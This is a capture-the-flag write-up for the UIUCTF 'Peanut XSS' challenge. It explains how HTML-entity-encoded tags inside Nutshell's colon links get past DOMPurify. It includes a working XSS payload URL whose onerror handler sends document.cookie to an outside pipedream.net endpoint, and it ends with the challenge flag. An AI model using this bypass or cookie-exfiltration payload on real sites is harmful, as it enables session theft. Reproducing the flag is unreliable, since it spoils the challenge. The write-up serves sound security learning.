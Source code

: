 # Peanut XSS
## Description
>Nutshell is pretty cool. Want to test it out?
>
>admin bot: nc peanut-xss-bot.chal.uiuc.tf 1337
>
>Author: arxenix
>
> 52 solves
# Attachments 
>
>We were given 2 links one to https://ncase.me/nutshell/ which talks about what is nutshell and the other to the challenge website https://peanut-xss-web.chal.uiuc.tf/ 
>
## The Site
Upon first looking at the site a few things stand out the website seems to have a html parser written into the site where you type your html and it will generate the content.
Two things that instantly pop out is the warning that the site uses dompurify so that we "surely won't be able to steal the admin-bots document.cookie
As well as the apparent indication that the site uses nutshell by the : being used in the example html.

After examing the html we see a interesting script function at the bottom

```js

      const $ = document.querySelector.bind(document);
      const nutshell = new URLSearchParams(location.search).get("nutshell");
      if (nutshell) {
        preview.innerHTML = DOMPurify.sanitize(nutshell);
      } else {
        var editor = CodeMirror.fromTextArea($("#editor"), {
          mode: "htmlmixed",
          lineNumbers: true
        });
        $("#submit").style.display = "";

        $("#submit").onclick = () => {
          location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
        };
      }
```

We can see from this js that DOMPurify is used on our passed-in nutshell parameter before nutshell parses it
Next, I attempted to send some test xss payouts to see how they looked after they were santizied 
passing in a simple ```<script>alert(1)</script>``` payload resulted in this being passed in as the parameter
```
?nutshell=%0A<script>alert(1)<%2Fscript>
```
I then tried various other xss payloads looking for one that would bypass dompurify before realizing I was ignoring the whole purpose of the challenge and not even using nutshell at all whoops
After looking into what nut shell does I saw this 
```
Nutshell is a tool to make "expandable, embeddable explanations", like this! They can even be recursive. (← click me 👆) This lets your readers learn what they need, just-in-time, always-in-context.
```

So then I modified my payload to ```<p>just make a link with :colon at the front… <a href="#ToWriteASection">:<script>alert(1)</script></a>!</p>``` which is just there example payload with my xss payload this resulted in nutshell
creating one of its expandable but still nothing at this point I was confused and started looking into nut shells code and found out it also uses dompurify which suprised me at first before realizing this must mean the issue is with nut shells 
implementation of dom purify so I started looking at both the code and similar examples and trying various xss payloads before stumbling on this one ```:&lt;img src=x onerror=alert(1)&gt;&lt;/img&gt;``` where the <> brackets are instead replaced with html entities and sure enough combined with using nutshells expandable embedded explanations which are inputted by using the :
![alertsuccess](images/alertsuccess.png)

The next part was simple enough we just had to take our newfound knowledge and craft a simple payload to send to the admin bot. Simply replacing the brackets in a normal xxs cookie payload was good enough.
```
https://peanut-xss-web.chal.uiuc.tf/?nutshell=%3Chtml%3E%0A%3Cbody%3E%0A%20%20%20%20%3Ch2%3ETo%20write%20a%20section%2C%3C%2Fh2%3E%0A%20%20%20%20%3Cp%3Ejust%20use%20headings%20%26%20paragraphs%20like%20this!%20Then%E2%80%A6%3C%2Fp%3E%0A%20%20%20%20%3Ch2%3ETo%20embed%20a%20section%2C%3C%2Fh2%3E%0A%20%20%20%20%3Ca%20href%3D%22%23ToWriteASection%22%3E%3A%26lt%3Bimg%20src%3Dx%20onerror%3Dthis.src%3D%27https%3A%2F%2Feor2d2npr01b93o.m.pipedream.net%2F%3F%27%2Bdocument.cookie%3B%26gt%3B%26lt%3B%2Fimg%26gt%3B%3C%2Fa%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%20%20%20%20
```
```
uiuctf{cr4ck1ng_0open_somE_nuTsh3lls}
```
